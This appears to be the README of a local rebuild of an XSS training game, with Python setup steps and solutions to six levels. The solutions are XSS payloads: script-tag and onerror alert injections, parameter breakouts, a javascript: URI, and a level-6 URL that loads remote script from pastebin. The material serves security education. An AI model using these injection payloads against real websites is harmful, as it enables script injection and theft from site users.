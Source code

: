 # CSS-GAME

## Installation:

Install python 2.7 via brew, gzip, anaconda etc.

Install packages:
```
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
python get-pip.py
pip install WebOb
pip install Paste
pip install webapp2
pip install Jinja2
```

## Usage:
Go to level folder e.g. level2 and run `.py` file:
```
cd level2/
python level2.py
```

Check game at http://127.0.0.1:8080 

Origin source: https://xss-game.appspot.com

### Were prevented 6 levels of XSS attacks described below:
### If you want to check initial game where this is working, go to the game site: https://xss-game.appspot.com ###
 # 1 Just insert following code and you're done:
  <script>alert('xss')</script>
 # 2 Use an img tag along with the onerror attribute:
  <img src="notexist.url" onerror="javascript:alert('xss')"/>
 # 3 Use the onerror attribute to insert JS:
  https://xss-game.appspot.com/level3/frame#3' onerror="alert('xss')";
# 4 Insert the request:
  https://xss-game.appspot.com/level4/frame?timer=')%3Balert(1)%3Bvar b=('
# 5 Steps:
  - insert the request:
    https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
  - Click next
# 6 You're not allowed to have a URL containing https. Insert the request to an evil file:
  https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0